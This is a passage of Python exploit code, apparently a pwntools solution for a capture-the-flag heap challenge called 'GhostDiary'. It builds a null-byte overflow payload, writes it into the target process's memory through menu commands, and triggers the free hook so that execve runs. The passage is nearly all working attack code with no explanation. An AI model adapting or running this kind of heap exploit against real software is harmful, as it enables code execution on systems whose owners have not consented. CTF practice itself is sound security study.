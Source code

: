 ```python
    def _exploit_null_overflow(self, index):
        self._write_to_page(index, b'A' * 352 + p64(0x2d0))

    def _write_to_page(self, index, data):
        self._proc.sendline(b'2')
        pwnlog.debug(self._proc.recv(4096))
        self._proc.sendline(bytes(str(index), 'utf-8'))
        pwnlog.debug(self._proc.recv(4096))
        self._proc.send(data)
        pwnlog.debug(self._proc.recv(4096))

    def _trigger_free_hook(self, index):
        self._proc.sendline(b'4')
        pwnlog.debug(self._proc.recv(4096))
        # This will trigger free hook and run execve, so we don't wait for response.
        self._proc.sendline(bytes(str(index), 'utf-8'))

    def __enter__(self):
        return self

    def __exit__(self, type_, value, traceback):
        if self._proc:
            self._proc.close()


def main():
    with GhostDiaryExploit() as ghostdiary_exploit:
        ghostdiary_exploit.exploit()


if __name__ == '__main__':
    main()
```
